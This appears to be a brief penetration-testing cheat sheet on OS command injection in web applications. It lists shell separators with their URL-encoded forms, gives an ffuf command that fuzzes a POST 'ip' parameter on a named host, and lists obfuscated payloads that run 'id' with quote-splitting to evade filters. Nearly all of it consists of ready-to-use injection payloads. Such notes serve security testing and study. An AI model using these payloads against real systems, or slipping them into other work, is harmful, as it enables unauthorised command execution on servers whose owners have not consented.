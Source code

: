 Search for operations in the web app that would be using system commands to complete the task.

#### Injection methods
```shell
;     %3b
\n    %0a
&     %26
&&    %26%26 
|     %7c
||    %7c%7c
``    %60%60
$()   %24%28%29
```

```shell
ffuf -w ~/opt/wordlists/CMDi.txt -u http://adot8.com/ -X POST -d 'ip=127.0.0.1FUZZ' 
```
#### Payloads
```shell
; i"d" ; asd
& i"d" #
&& i"d"  
\n i"d" \n
\n i"d";
| i"d"
|| i"d"
`i"d"`
`/b"i"n/"i"d`
```